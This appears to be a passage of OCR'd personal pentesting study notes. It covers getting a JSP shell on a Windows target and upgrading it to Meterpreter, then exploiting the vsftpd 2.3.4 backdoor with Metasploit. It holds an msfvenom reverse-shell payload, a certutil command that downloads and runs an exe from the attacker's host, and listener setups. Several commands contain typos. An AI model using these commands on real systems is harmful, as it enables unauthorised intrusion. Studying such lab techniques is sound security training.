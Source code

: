     > ==that will upload a jsp script (java service page ) to the server , and with the payload we entered so will get a java jsp shell on the target , and becuase we have a windows target we will enter the shell as a cmd==
    
    > we will get a command promet on the target
    
    - so if we want to get a meterpreter session , we need to generate a payload with msfvenom then upload it throgh jsp
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<our ip> LPORT=1234 -f exe >meterpreter.exe`
    - `python3 -m server.http 80` && on windows jsp shell session ⇒ `certutil -urlcache -f http://<our ip>/meterpreter.exe metepreter.exe`
    
    > that will upload the payload on the target system
    
    - `use multi/handler` && `set payload windows/meterpreter/reverse_tcp` && `set lhost <our ip>` && `set lport 1234` && `run`
    - on jsp shell session on target system ⇒ `./meterpreter.exe`
    - we will get a meterpreter session on the target not just a jsp shell
    

  

  

  

### _==**Linux Exploitation**==_

  

- **_==Exploiting A Vulnerable FTP Server==_**

> FTP ( File transfer protocol ) on 21 , used to for file sharing between a server and client/clients .

> used to transfer file ==to && from== directory of a web server

> vsftpd is an FTP server for Unix-kali system , Vsftpd V2.3.4 is vulnerable to rce

- **_==Exploiting FTP==_**
    
    - `nmap -sS -sV -O <TARGET IP>` ⇒ to do some port scan to identify the ftp server
    
    > `u can do that by using mfsconsole` && `db_nmap`
    
    - `service postgrsql start` && `mfsconsole` && `workspace -a ftp`
    - `search vsftpd` && `use exploit/unix/ftp/vsftpd_234_backdoor`
    - `set Rhost <target ip>` && `run`
    
    > when we run that a malicious backdoor that was added to the vsftpd download archive
    
    - if we want to open bash terminal ⇒ `/bin/bash -i`
    
    💡
    
    now we have a shell session on target if we want to upgrade that to meterpreter session
    
    - `search sell_to_meterpreter` && `use post/multi/manage/shell_to_meterpreter`
    
    > _the post exploit from shell to meterpreter required us to have active session on target system ⇒ we have from the vsftpd exploit_
    
    - `set lhost <our ip or the name of intrface>` && `set port 1234` && `set session 1< the target active session` `_number_` `>` && `run`
    - `sessions <number of session u want>` ⇒ we can see we have 2 sessions , shell and meterpreter
    
